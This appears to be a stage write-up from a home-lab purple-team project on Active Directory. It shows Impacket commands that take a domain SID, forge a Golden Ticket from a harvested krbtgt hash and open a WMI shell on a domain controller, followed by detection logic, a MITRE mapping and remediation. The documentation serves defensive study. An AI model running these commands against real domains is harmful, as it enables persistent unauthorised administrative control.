



# Stage 16 — Golden Ticket

> **Status:** Complete — evidence attached  
> **Case:** [Case 03](../../04-Investigation/Cases/case-03-domain-compromise.md)  
> **Investigation:** [Stage 16](../../04-Investigation/Stages/stage-16-golden-ticket.md)  
> **Evidence:** [attack](../Attack-Screenshots/49.png) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/14.png)

## Objective

Forge an Active Directory Kerberos Ticket Granting Ticket (TGT) using the extracted KRBTGT domain account NTLM hash, securing indefinite, undetectable administrative persistence and unrestricted access across all systems in the `ad.lab` domain.

## Commands

```bash
# Query the domain SID from the compromised DVWA pivot host using lookupsid.py
python3 /usr/local/bin/lookupsid.py ad.lab/HANK_SHERMAN:'Passw***123'@192.168.56.10 | grep "Domain SID"

# Forge a Golden Ticket (TGT) for the Administrator account using the harvested KRBTGT NTLM hash
python3 /usr/local/bin/ticketer.py -nthash 611a8***f60 -domain-sid S-1-5-21-3315718683-193253855-3518612541 -domain ad.lab Administrator

# Load the forged ticket into the Kerberos credential cache and authenticate to the Domain Controller via WMI
export KRB5CCNAME=/tmp/Administrator.ccache
python3 /usr/local/bin/wmiexec.py -k -no-pass ad.lab/Administrator@PC-DC.ad.lab

# Verify execution context and hostname within the remote shell
whoami
hostname
```

## What happened

Having dumped the Active Directory password hashes via DCSync in Stage 14, the adversary obtained the master NTLM hash for the Kerberos Key Distribution Center service account (`krbtgt`). In this stage, the adversary capitalized on that master credential to construct a Golden Ticket, representing complete and persistent ownership of the Active Directory domain.

Operating from the compromised DVWA pivot host (`192.168.56.30`), the attacker first obtained the domain's unique Security Identifier (SID) by executing Impacket's `lookupsid.py` against the Domain Controller (`192.168.56.10`) using the previously compromised domain credentials of `HANK_SHERMAN`. The tool identified the Domain SID as `S-1-5-21-3315718683-193253855-3518612541`.

With the Domain SID and the extracted `krbtgt` hash (`611a8***f60`), the adversary ran Impacket's `ticketer.py` to synthesize a valid Kerberos Ticket Granting Ticket (TGT) for the `Administrator` account. The ticket incorporated simulated Privilege Attribute Certificate (PAC) information (`PAC_LOGON_INFO`, `PAC_CLIENT_INFO_TYPE`) and encrypted the authorization data using the KRBTGT key, writing the output ticket to `/tmp/Administrator.ccache`.

To validate the ticket, the attacker exported the environment variable `KRB5CCNAME=/tmp/Administrator.ccache` and launched Impacket's `wmiexec.py` with Kerberos authentication enabled (`-k -no-pass`), targeting `PC-DC.ad.lab`. The Domain Controller accepted the forged TGT, issued a service ticket for WMI/SMB access, and established a semi-interactive shell. Verification commands `whoami` and `hostname` confirmed execution as `ad.lab\administrator` directly on the primary Domain Controller (`PC-DC`). Because the TGT was forged offline using the master service key, the attacker retained administrative access that survives standard user password rotations.

## Evidence

### Attack Execution Screenshots


*Figure 16.1: Extracting Domain SID (`S-1-5-21-3315718683-193253855-3518612541`) from Domain Controller via lookupsid.py.*


*Figure 16.2: Synthesizing forged Kerberos TGT (`Administrator.ccache`) using the extracted KRBTGT hash and Domain SID.*


*Figure 16.3: Successful passwordless Kerberos WMI connection to PC-DC executing commands as `ad.lab\administrator`.*

### Detection & Alert Screenshots


*Figure 16.4: TheHive Alert 14 recording SSH authentication activity on the DVWA pivot supporting remote staging operations.*

## Alert observed

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Wazuh (Pivot Host) | sshd: authentication success (Pivot Session Alert) | 5715 (Level 8) | `[2x] [DVWA] Logon activity: ROOT @ 192.168.232.135` (`14.png`) | Medium (2) | Detected (Pivot Alerted) |
| Active Directory / Kerberos | Kerberos TGS request without matching AS-REQ / RC4 encryption | Event ID 4769 | Local DC Security Log (Unforwarded due to level filter) | Medium | Detected (Local DC Log) |

> [!NOTE]
> The generation of a Golden Ticket occurs completely offline on the adversary's machine using `ticketer.py`, generating zero telemetry on the Domain Controller during ticket creation. However, detection occurred upon ticket presentation: the DC recorded Kerberos TGS requests (Event ID 4769) requesting service access with anomalous ticket lifetimes, legacy encryption types (RC4-HMAC instead of AES), and no corresponding prior TGT request (Event ID 4768) within the domain controller's authentication logs.

## MITRE ATT&CK

| Tactic | Technique | Sub-technique | ID |
|---|---|---|---|
| Credential Access | Steal or Forge Kerberos Tickets | Golden Ticket | T1558.001 |
| Persistence | Steal or Forge Kerberos Tickets | Golden Ticket | T1558.001 |
| Privilege Escalation | Steal or Forge Kerberos Tickets | Golden Ticket | T1558.001 |
| Lateral Movement | Use Alternate Authentication Material | Kerberos Ticket | T1550.003 |

## Detection opportunities

- **Kerberos Encryption Downgrade Detection:** Monitor Windows Event ID 4769 (A Kerberos service ticket was requested) where `Ticket Options` or `Ticket Encryption Type` uses RC4-HMAC (`0x17`) in an environment configured for AES-128/AES-256 (`0x12`, `0x11`).
- **Missing AS-REQ Correlation:** Correlate Event ID 4769 (TGS-REQ) with Event ID 4768 (TGT Request / AS-REQ). A service ticket requested with a TGT that was never issued by the local KDC indicates ticket forgery or pass-the-ticket.
- **Anomalous Ticket Lifetimes:** Alert on Kerberos tickets presenting renewal or validity intervals exceeding the Active Directory default domain policy (default: 10 hours for tickets, 7 days for renewal). Forged tickets commonly request maximum validity windows (e.g., 10 years).
- **Service Account (KRBTGT) Password Age Tracking:** Alert on accounts requesting TGS tickets encrypted under stale `krbtgt` keys or keys older than documented rotation schedules.

## Notes

- **Target Domain:** `ad.lab`
- **Domain SID:** `S-1-5-21-3315718683-193253855-3518612541`
- **Forged Principal:** `ad.lab\Administrator`
- **Compromised Service Key:** `krbtgt` NTLM hash (`611a8***f60`, harvested in Stage 14)
- **Ticket Artifact:** `/tmp/Administrator.ccache` on pivot host `192.168.56.30`
- **Remediation Procedure:** In order to invalidate active Golden Tickets across an Active Directory forest, the `krbtgt` account password must be reset twice consecutively, allowing sufficient time between resets for Active Directory replication across all domain controllers.
